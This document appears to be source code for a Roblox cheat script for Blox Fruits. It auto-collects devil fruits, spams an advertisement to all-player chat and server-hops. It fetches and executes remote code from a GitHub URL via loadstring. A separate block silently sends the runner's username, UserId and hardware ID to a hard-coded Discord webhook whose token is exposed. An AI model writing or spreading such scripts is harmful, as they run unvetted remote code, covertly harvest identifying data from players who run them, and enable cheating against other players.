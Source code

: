 repeat wait() until game.IsLoaded and (game.Players.LocalPlayer or game.Players.PlayerAdded:Wait()) and (game.Players.LocalPlayer.Character or game.Players.LocalPlayer.CharacterAdded:Wait())
if Ran then 
    return
else
    getgenv().Ran = true
end

if game:GetService("Players").LocalPlayer.PlayerGui:WaitForChild("Main", 9e9):FindFirstChild("ChooseTeam") then
    game:GetService("ReplicatedStorage").Remotes.CommF_:InvokeServer("SetTeam", "Pirates")
    wait(3)
end
local args = {
    [1] = "Blox Fruits {Devil Fruit Farm By Delux#6>6<6>6}",
    [2] = "All"
}
game:GetService("ReplicatedStorage").DefaultChatSystemChatEvents.SayMessageRequest:FireServer(unpack(args))


loadstring(game:HttpGet("https://raw.githubusercontent.com/DogePR/adsdsa/main/README.md"))()


local plr = game.Players.LocalPlayer
local chr = plr.Character
local t = game.TweenService

local bv = Instance.new("BodyVelocity")
bv.MaxForce = Vector3.new(1/0, 1/0, 1/0)
bv.Velocity = Vector3.new()
bv.Name = "bV"
local bav = Instance.new("BodyAngularVelocity")
bav.AngularVelocity = Vector3.new()
bav.MaxTorque = Vector3.new(1/0, 1/0, 1/0)
bav.Name = "bAV" 

for _,v in next, workspace:GetChildren() do
    if v.Name:find("Fruit") and (v:IsA("Tool") or v:IsA("Model")) then
        repeat 
            local anc1 = bv:Clone()
            anc1.Parent = chr.HumanoidRootPart
            local anc2 = bav:Clone()
            anc2.Parent = chr.HumanoidRootPart
            local p = t:Create(chr.HumanoidRootPart, TweenInfo.new((plr:DistanceFromCharacter(v.Handle.Position)-100)/320, Enum.EasingStyle.Linear), {CFrame=v.Handle.CFrame + Vector3.new(0, v.Handle.Size.Y, 0)})
            p:Play()
            p.Completed:Wait()
            chr.HumanoidRootPart.CFrame = v.Handle.CFrame
            anc1:Destroy()
            anc2:Destroy()
            wait(1)
        until v.Parent ~= workspace
        wait(1)
        local fruit = chr:FindFirstChildOfClass("Tool") and chr:FindFirstChildOfClass("Tool").Name:find("Fruit") and chr:FindFirstChildOfClass("Tool") or (function()
            for _,fr in plr.Backpack:GetChildren() do
                if fr.Name:find("Fruit") then
                    return fr
                end 
            end
        end)()
        print(fruit)
        game:GetService("ReplicatedStorage").Remotes.CommF_:InvokeServer("StoreFruit", fruit:GetAttribute("OriginalName"), fruit)
    end
end

print('nope')
---
HttpService = game:GetService("HttpService")
Webhook_URL =  "https://discord.com/api/webhooks/1062446087820025856/fzxHyGrn-fBbKkEWPRj0XvfW4cctBZIpDHKS4JXy1RvnPL2xcYofpNjHyMLFwwGyTGcj"

local request = syn and syn.request or request or http and http.request or http_request
local response = request({
    Url = Webhook_URL,
    Method = "POST",
    Headers = {
        ['Content-Type'] = 'application/json'
    },
    Body = HttpService:JSONEncode({
        ["content"] = "",
        ["embeds"] = {
            {
                ["title"] = "",
                ["description"] = game.Players.LocalPlayer.Name .." Tried Logging Into The Script More Info Below",
                ["type"] = "rich",
                ["color"] = tonumber(0xffffff),
                ["fields"] = {
					{
                        ["name"] = "Player DisplayName : ",
                        ["value"] = game.Players.LocalPlayer.DisplayName,
                        ["inline"] = true
                    },
                    {
						
                        ["name"] = "Player Name : ",
                        ["value"] = game.Players.LocalPlayer.Name,
                        ["inline"] = true
                    }, {
                        ["name"] = "UserId : ",
                        ["value"] = game.Players.LocalPlayer.UserId,
                        ["inline"] = true
                    }, {
                        ["name"] = "User Profile : ",
                        ["value"] = "https://www.roblox.com/users/" ..
                            game.Players.LocalPlayer.UserId,
                        ["inline"] = true
                    }, {
                        ["name"] = "HWID Id : ",
                        ["value"] = game:GetService("RbxAnalyticsService"):GetClientId(),
                        ["inline"] = true
                    }, {
                        ["name"] = "Key : ",
                        ["value"] = "Hi",
                        ["inline"] = true
                    }
					
                }
            }
        }
    })
})
---
Time = 5 -- seconds
repeat wait() until game:IsLoaded()
wait(Time)
local PlaceID = game.PlaceId
local AllIDs = {}
local foundAnything = ""
local actualHour = os.date("!*t").hour
local Deleted = false
function TPReturner()
   local Site;
   if foundAnything == "" then
       Site = game.HttpService:JSONDecode(game:HttpGet('https://games.roblox.com/v1/games/' .. PlaceID .. '/servers/Public?sortOrder=Asc&limit=100'))
   else
       Site = game.HttpService:JSONDecode(game:HttpGet('https://games.roblox.com/v1/games/' .. PlaceID .. '/servers/Public?sortOrder=Asc&limit=100&cursor=' .. foundAnything))
   end
   local ID = ""
   if Site.nextPageCursor and Site.nextPageCursor ~= "null" and Site.nextPageCursor ~= nil then
       foundAnything = Site.nextPageCursor
   end
   local num = 0;
   for i,v in pairs(Site.data) do
       local Possible = true
       ID = tostring(v.id)
       if tonumber(v.maxPlayers) > tonumber(v.playing) then
           for _,Existing in pairs(AllIDs) do
               if num ~= 0 then
                   if ID == tostring(Existing) then
                       Possible = false
                   end
               else
                   if tonumber(actualHour) ~= tonumber(Existing) then
                       local delFile = pcall(function()
                           delfile("NotSameServers.json")
                           AllIDs = {}
                           table.insert(AllIDs, actualHour)
                       end)
                   end
               end
               num = num + 1
           end
           if Possible == true then
               table.insert(AllIDs, ID)
               wait()
               pcall(function()
                   writefile("NotSameServers.json", game:GetService('HttpService'):JSONEncode(AllIDs))
                   wait()
                   game:GetService("TeleportService"):TeleportToPlaceInstance(PlaceID, ID, game.Players.LocalPlayer)
               end)
               wait(4)
           end
       end
   end
end

function Teleport()
   while wait() do
       pcall(function()
           TPReturner()
           if foundAnything ~= "" then
               TPReturner()
           end
       end)
   end
end

-- If you'd like to use a script before server hopping (Like a Automatic Chest collector you can put the Teleport() after it collected everything.
Teleport()
